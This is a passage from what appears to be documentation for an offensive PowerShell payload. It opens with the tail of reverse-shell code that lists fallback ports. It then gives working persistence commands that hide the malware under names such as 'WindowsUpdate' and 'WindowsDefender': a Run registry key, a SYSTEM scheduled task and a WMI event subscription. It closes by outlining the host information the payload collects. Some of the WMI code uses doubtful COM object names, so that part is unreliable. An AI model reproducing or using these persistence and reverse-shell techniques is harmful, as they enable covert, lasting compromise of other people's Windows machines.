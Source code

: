 ```powershell
            $client.Close()
            break
        } catch {
            continue
        }
    }
} catch {
    "Reverse shell failed, continuing with persistence setup" | Out-File "$env:APPDATA\Microsoft\Windows\Update\logs\reverse_shell_failed.log" -Append
}
```

**Key Features:**
- Multiple fallback ports (4444, 4445, 8080, 8443, 443)
- Automatic reconnection logic
- Error handling and logging
- Kill command support

#### 4. Persistence Mechanisms

**Registry Persistence:**
```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\Microsoft\Windows\Update\persist.ps1`"" -PropertyType String -Force
```

**Scheduled Task Persistence:**
```powershell
schtasks /create /tn "WindowsDefender" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\Microsoft\Windows\Update\defender.ps1`"" /sc onlogon /ru System /f
```

**WMI Persistence:**
```powershell
$filter = New-Object -ComObject WbemScripting.SWbemFilter
$filter.EventNameSpace = "root\cimv2"
$filter.QueryLanguage = "WQL"
$filter.Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA \"Win32_LocalTime\""
$consumer = New-Object -ComObject WbemScripting.SWbemConsumer
$consumer.Name = "WindowsUpdate"
$consumer.CommandLineTemplate = "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File \"$env:APPDATA\Microsoft\Windows\Update\wmi.ps1\""
$filter.ConnectEventConsumer($consumer)
```

#### 5. Information Gathering

The payload collects comprehensive system intelligence:

**System Information:**
- Hostname, username, domain
- OS version and architecture
- Memory and processor details
- System uptime
